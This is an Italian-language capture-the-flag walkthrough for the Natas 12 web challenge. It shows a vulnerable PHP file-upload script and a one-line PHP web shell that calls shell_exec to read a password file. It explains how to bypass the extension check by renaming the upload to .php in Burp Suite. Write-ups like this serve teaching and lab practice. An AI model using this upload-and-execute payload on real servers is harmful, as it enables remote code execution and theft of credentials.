 ```php
        $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else { 
    *show form*
}
```

Capiamo subito che il file verrà caricato con una stringa randomica come nome e con un estensione _.jpeg_.
Facile da aggirare!
Creiamo un nuovo script: `payload.jpeg`.

```php
<?=shell_exec("cat /etc/natas_webpass/natas13");?>
```

Apriamo Burp Suite e colleghiamo il proxi `localhost:8080` al nostro browser. Carichiamo il nostro file `payload.jpeg`. Quindi osserviamo la richiesta ottenuta.

![](https://i.postimg.cc/bwb5YkN6/natas12-2.png)

Come vediamo il nostro file verrà caricato come file _.jpg_.
Tutto ciò che dovremo fare è cambiare l'estensione con cui viene caricato:

![](https://i.postimg.cc/m2KqG8Rz/natas12-3.png)

Potete notare che ho modificato l'estensione del file, da: _9ucvajejsk.jpg_ a _9ucvajejsk.php_. Quindi schiacciamo sul pulsante in alto a destra: Forward per far procedere la richiesta. Osserviamo il risultato sul browser.

![](https://i.postimg.cc/BQjyydWf/natas12-4.png)

Clicchiamo sul link:

![](https://i.postimg.cc/PJR7JMw7/natas12-5.png)
